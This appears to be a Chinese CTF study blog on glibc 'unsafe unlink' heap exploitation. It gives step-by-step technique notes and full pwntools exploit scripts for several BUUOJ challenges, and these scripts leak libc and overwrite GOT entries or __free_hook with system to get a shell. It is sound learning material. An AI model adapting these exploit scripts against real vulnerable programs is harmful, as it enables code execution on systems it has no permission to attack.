








参考:
[ctfwiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unlink/)
[csdn](https://blog.csdn.net/qq_25201379/article/details/81545128)

[关于unlink的学习总结 - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/16315354.html)


---

2024年8月14日 UPD.


# unsafe unlink

利用场景（一般）：

1. 不开PIE（或者能得到程序基地址/bss段地址）
2. 堆溢出/Off-By-Null/UAF


步骤：

1. 目标地址**target**（一般为bss段存储chunk结构的地方）

2. 伪造两个堆块，一个溢出/UAF/off-by-null的堆块，一个lead chunk

3. **最好选0x80~0xa0大小之间**的，大了的容易出bug。。。

4. 在上面堆块的content伪造size和fd,bk。

   **fd = target - 0x18**

   **bk = target - 0x10**

5. lead chunk修改**prevsize**

6. free(leadchunk)触发。

7. 此时edit(0)，即修改上面那个堆块，就是改**target-0x18**开始的值了

   ```
   pl = p64(0)*3 + p64(__free_hook) + p64(xxx) + ...
   edit(0,pl)
   ```

8. 再次edit(0)，将`__free_hook`改为system

   ```
   pl = p64(system)
   edit(0,pl)
   ```

9. pwn！


# 例题


## hitcontraining_unlink
[题目](https://buuoj.cn/challenges#hitcontraining_unlink)

考点：利用堆溢出实现unlink

而且这题不能通过puts_got来泄露。。。所以用atoi。
伪造fake chunk 触发unlink后，使得chunk0用户段的开头变成了&bss-0x18处，所以这时edit(0)，往用户段写实际上是往bss段写，所以可以写一个got表地址，顺带把size段修好。
这次写了过后，再次edit(0)的时候就是直接改got表的值了（我们在bss段指针已经改为atoiのgot表的了），而不是还存在一个0x18的偏移。（说实话真绕啊。。。）

Exp:
```python
add(0x20,'0')
add(0x80,'1')

ptr = 0x6020C8 # bss_addr
fake = p64(0) + p64(0x21) # fake prev_size size
fake += p64(ptr-0x18) + p64(ptr-0x10) # fake fd bk
fake += p64(0x20) + p64(0x90) # chunk1's prev_size size
			      # prev_size = fake_chunk_size   size & 1 = 0
edit(0,fake)

free(1)
#debug()

atoi_got = elf.got['atoi']
pl = p64(0)*2 + p64(0) + p64(atoi_got) # padding: ptr-0x18 -> ptr
edit(0,pl)
show()
atoi_addr = leak_address()
info_addr("atoi",atoi_addr)

libcbase = atoi_addr - libc.sym['atoi']
info_addr("libcbase",libcbase)

system = libcbase + libc.sym['system']
bin_sh = libcbase + next(libc.search(b'/bin/sh\x00'))

edit(0,p64(system))
sa('choice:','/bin/sh\x00')
```

## hitcon2014_stkof
[题目](https://buuoj.cn/challenges#hitcon2014_stkof)


思路:
unlink打到bss段，写puts_got,free_got，把free_got先改为puts_plt，然后free(puts_got)泄露Libc，再将free_got改为system，free("/bin/sh\x00")即可getshell。
这里有个细节点，必须在最开始垫一个chunk1，然后chunk2和chunk3打unlink，不然会失败。（不清楚原因。。。）

为什么不打atoi？因为这题没有能直接打印泄露的点，所以必须改一个puts_plt，如果将atoi_got改为puts_plt显然是无法atoi_got(&free_got)的。
```python
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']
atoi_got = elf.got['atoi']

bss = 0x602140

add(0x20) # 1 <--- 关键
add(0x20) # 2 userdata伪造fake chunk
add(0x80) # 3 lead chunk
add(0x20) # 4 放puts_got
add(0x20) # 5 放"/bin/sh"，同时隔开top chunk

ptr = bss + 16
pl = p64(0) + p64(0x21) + p64(ptr-0x18) + p64(ptr-0x10)
pl += p64(0x20) + p64(0x90)
edit(2,0x30,pl)
free(3)
pl = p64(0)*3 + p64(free_got) + p64(0) + p64(puts_got)
edit(2,0x30,pl)

edit(2,0x8,p64(puts_plt))
free(4)
leak = leak_address()
info_addr("puts_addr",leak)
libcbase = leak - libc.sym['puts']
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']

edit(2,0x8,p64(system))
edit(5,0x8,b'/bin/sh\x00')
free(5)

p.interactive()
```


## wdb_2018_1st_babyheap
[题目](https://buuoj.cn/challenges#wdb_2018_1st_babyheap)
难！

整个程序就一个UAF漏洞：


而且限制了10次add，3次edit。
注意到堆块的信息还是在bss上开指针存的，所以考虑unlink打bss。

首先，要想办法泄露libc，由于3次edit的限制，我们只能考虑最初始的方法：unsorted bin泄露libc。
但题目定死了malloc(0x20)，
所以要考虑先UAF改fd把chunk_header打出来，然后修改size。
所以第一次我们需要先double free打出堆地址。
泄露libc后，再打unlink，修改bss的指针段，劫持got表getshell。

double free泄露heap地址：


double free修改fastbin的fd指针:


然后申请回来chunk0并伪造unlink的fake chunk(同时注意伪造一下size为0x31(0x30的index都行)，通过fastbin申请的检测):


再次add的话就能申请到10的chunk头，也就是20的用户段。就能够改chunk1的header了。


那么此时free(0)后再add(7)其实就是再修改chunk0用户段伪造fake chunk的size和fd,bk来打unlink。
接着free(1)，触发unlink,将10->&bss-0x18。
同时chunk1被free掉，由于size为0xa0，所以进了unsorted bin，show(1)即可得到main_arena+88，从而得到libcbase。
然后用暂时的10->&bss-0x18在chunk0用户段写，修改bss上的指针，写入`__free_hook`，然后再edit(0)改为system，free("/bin/sh\x00")即可。

---

其实还有一个点需要思考：为什么将size改为0xa0？
实践发现需要size=0x90或size=0xa0，那为什么卡着界限的0x80不行呢？


0xb0也不行。。。


🤔

其实不只是这个size的思考，另一个点:`add(6,p64(0)+p64(0x21)+b'\n')`也比较疑惑。
这个6其实无关紧要，仅仅影响的是bss段的指针存储，chunk分配不会改变。重点是要伪造这个0x21。
比如，如果这里改为0x31，就会报错：


说明是unlink时没有通过
```c
if(__builtin_expect(chunksize(p)!=prev_size(next_chunk(p),0))
```
的检查
下面的是设置为0x21  unlink前后的堆布局


可以看到确实触发unlink合并后一起进入了unsorted bin。
所以这里的0x21我的理解是：前面计算好unlink后的堆布局后，d0这里是合并后的下一个chunk，而且与top chunk紧邻，所以size应该设置为0x21(不然与topchunk距离不对)。
至于add(6,p64(0)+p64(0x21))的6，换成8,9都行。
然后那个0xa0 size的设置也是计算与topchunk前面那个堆块的offset来造的，0xa0刚刚好，0x90也行就很。。。🤔

Exp:(但是貌似打不通远程。。。奇了怪了+1。)
```python
bss = 0x602060
puts_got = elf.got['puts']

add(0,'a'*0x20)
add(1,b'b'*0x8+p64(0x21)+b'\n')
add(2,'/bin/sh\x00'+'c'*0x18)
add(3,p64(0)+p64(0x31)+p64(0)+p64(0x31))
add(6,p64(0)+p64(0x21)+b'\n') # 6,8,9 all OK desu
free(0)
free(1)
free(0)

show(0)
heap_addr=u64(p.recv(4).ljust(8,b'\x00'))
info_addr("heap",heap_addr)
edit(0,p64(heap_addr-0x20)+p64(0x21)+p64(0)+p64(0x21)) # modify fd


ptr=0x602060
add(4,p64(0)+p64(0x33)+p64(ptr-0x18)+p64(ptr-0x10))


add(5,p64(ptr-0x18)+p64(ptr-0x10)+p64(0x20)+p64(0xa0)) # why 0x90 or 0xa0?
debug()
free(0)

add(7,p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10))
free(1)
pause()
show(5)

leak = leak_address()
info_addr("leak",leak)
#debug()
libcbase = leak - 88 - 0x10 - libc.sym['__malloc_hook']
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']
free_hook = libcbase + libc.sym['__free_hook']
pl = p64(0)*3 + p64(free_hook)
edit(0,pl)
edit(0,p64(system)+b'\n')
free(2)

p.interactive()
```
本地：


---

慢慢调试分析，总算是弄明白了这个堆的布局了。。。

## zctf2016_note2 （待补）
[题目](https://buuoj.cn/challenges#zctf2016_note2)

漏洞点：


i是unsigned int，所以a2传0的话，a2-1=-1，转为无符号就是0xFFFFFFFF，就能够堆溢出了。
但是由于malloc(0)，所以实际上会申请0x20的空间。(至少要0x10用户段和0x10的header)


## axb_2019_heap

https://buuoj.cn/challenges#axb_2019_heap


分析：主要是要想到unlink。。。


开始的banner那儿有一个格式化字符串漏洞，用来

**泄露Libc和程序基地址**

edit有一个off-by-bull



虽然貌似测了测是一个off-by-one。


然后就是正常打一个off-by-null的unlink，申请0x88这种chunk。


然后就是覆盖完leadchunk的prev_size后还要off-by-one改size，其实不叫改，是填充。不然会变成0。。。



好像就是这里的点以前没注意，所以其实前面那个chunk申请0x118之类的也可以。

对应的两组值：




然后打完unlink改&note的时候，要注意把contents'len填上。




注意细节后，写入`__free_hook`改为`system`即可。

---

```python
pl = b'%15$p-%11$p'
sla("name: ",pl)
ru(b"0x")
leak = int(rc(12),16)
libcbase = leak - 240 - libc.sym['__libc_start_main']
info_addr("libcbase",libcbase)
free_hook = libcbase + libc.sym['__free_hook']
system = libcbase + libc.sym['system']

ru(b"-0x")


leak = int(rc(12),16)
base = leak - 0x1186
info_addr("program_base",base)

note = base + 0x202060
target = note

add(0,0x88,b'a') # !!!
add(1,0x88,b'a')
add(2,0x88,b'/bin/sh\x00')

pl = p64(0) + p64(0x80) + p64(target-0x18) + p64(target-0x10)
pl = pl.ljust(0x80,b'\x00')
pl += p64(0x80) + p64(0x90)
edit(0,pl)

free(1)

pl = p64(0)*3 + p64(free_hook)
pl += p64(0x10) # content's length !!!
edit(0,pl)
pl = p64(system)
edit(0,pl)
info_addr("note",0x202060+base)
#debug()
free(2)
#debug()


p.interactive()
```


# 原理

利用unlink漏洞时 就是对chunk进行内存布局 然后借助unlink来修改指针

~~回顾~~unlink的目的/过程
**目的**: 把一个双向链表中的空闲块取出来(eg.free时和目前物理相邻的free chunk合并)
**过程**:
就是数据结构学的链表操作


# 利用unlink地址写

## exploit
最初unlink实现时 没有对chunk的size检查和双向链表检查的
只有简单的check `now->fd->bk == now == now->bk->fd` (即这个chunk是否在双向链表中 并没有check真正的空闲状态)
即 没有以下代码:
```c
// 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致(size检查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
// 检查 fd 和 bk 指针(双向链表完整性检查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

  // largebin 中 next_size 双向链表完整性检查 
              if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);
```

(旧版)
以**32位**为例
堆初始内存布局如下:


即现在有两个物理相邻的chunk (Q,Nextchunk)
Q处于使用状态 Nextchunk处于释放状态
通过溢出将Nextchunk的`fd`,`bk`指针修改
当我们free(Q)时:
- glibc判断当前chunk是small chunk
- 判断向前合并 发现处于使用状态不合并
- 判断向后合并 发现Nextchunk处于空闲 要合并
- 所以对Nextchunk进行**unlink**操作

当执行unlink时(我们以及修改了fd bk)
- FD = P->fd = target_addr - 12
- BK = P->bk = expect_value
- FD->bk = BK 即 *(target_addr-12+12) = BK = expect_value
- BK->fd = FD 即 *(expect_value+8) = FD = target_addr-12

有机会通过unlink实现任意地址写(要确保expect_value+8具有读写权限)

(新版)


再过一遍csdn那篇 (其实就是**引入保护机制后**的绕过方法)
具体操作:
- 分配两个堆块 > 80B 超过fastbin范围
- 后面的chunk来伪造unlink的空闲块
- 伪造前面分配chunk的头部 改prev_size为后面chunk的大小并把size最后一位prev_inuse置为0
 free前面chunk时 glibc检测到后面chunk是"空闲"的 需要合并 触发unlink操作
- 伪空闲堆块(后面那个chunk)需要从空闲链表unlink 但这个伪空闲堆块并不存在于任何空闲链表
 所以需要绕过unlink之前的一系列检查
- 由于`fd`的偏移是3个字长 `bk`偏移是4个字长
  设置`fd = &p - 3*size(int); bk = &p - 2*size(int)`
  这样`now->fd->bk = &p + size(int) = now->bk->fd`
  通过unlink检查
- glibc执行unlink操作
```c
FD = p->fd; // 取p前面的节点
BK = p->bk; // 后面
FD->bk = BK; // 链接
BK->fd = FD;
```

unlink过后 看看布局


妙!
**ptr0是指针**
所以`ptr0[0]`的含义是: ptr0指向内存的下一个int内存
&ptr0的值是&ptr0-3 `ptr0[0]`就是&ptr0-3 `ptr0[3]`就是&ptr0
把&ptr0-3地址的值存入&free_got(`ptr0[0] = &free_got`)
那当我们把&ptr0地址的值存入sys_addr(`ptr0[3] = sys_addr`)时 就把free_got改写为system了

---
---
其实感觉不用理解的这么绕 具体的等找题来看看再体会

## 利用条件
- UAF 可修改free状态下smallbin或unsortedbin的`fd`,`bk`指针
- 已知位置存在一个指针指向可进行 UAF 的 chunk

## 效果
使得已指向 UAF chunk 的指针 ptr 变为 `ptr - 3*size`


---

2024年7月6日

再来看发现还是好绕啊。。。

emmm，再好好学一学吧。
